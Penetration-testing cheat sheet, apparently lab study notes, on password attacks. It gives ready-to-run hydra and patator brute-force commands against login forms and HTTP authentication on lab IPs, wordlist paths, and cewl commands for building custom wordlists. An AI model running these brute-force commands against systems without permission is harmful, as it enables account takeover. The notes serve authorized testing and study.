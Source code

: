 
### Password Attack
- username as the password
- default password of the service
- weak passwords (admin, root, password123, Password...)
	- try the name of the service or username as password as well
- search passwords in ftp, smb, snmp, ...
- add rules to brute force
- search for passwords managers like KeePass (database.kdbx)


```
# brute force
hydra -l <user> -P <password> -s <port> <protocol>://<ip>

# http login pages
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"

hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.164.103 http-post-form -s 8080 "/login:password=^PASS^:Incorrect password."  

# HTTP Basic Authentication
hydra -I -V -C creds.txt -t 1 "http-get://192.168.228.131:80/svn:A=BASIC:F=401"

# username and password encoded
hydra -I -f -L custom-wordlist.txt -P custom-wordlist.txt 'http-post-form://192.168.233.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'

patator http_fuzz url=https://172.16.10.248:8081/lib/crud/userprocess.php method=POST body='user=admin&pass=COMBO00&sublogin=1' 0=/usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt after_urls=https://172.16.10.248:8081/dashboard.php accept_cookie=1 follow=1 max_follow=2 -x ignore:clen=5878
```


tools:
- hashcat
- hashid
- john
- ssh2john
- patator

wordlists
```
/usr/share/wordlists/fasttrack.txt
/usr/share/wordlists/rockyou.txt
```

create generate wordlist using cewl
```
cewl http://<ip>:<port>/ | grep -v CeWL > custom-wordlist.txt
cewl --lowercase http://<ip>:<port>/ | grep -v CeWL  >> custom-wordlist.txt
```

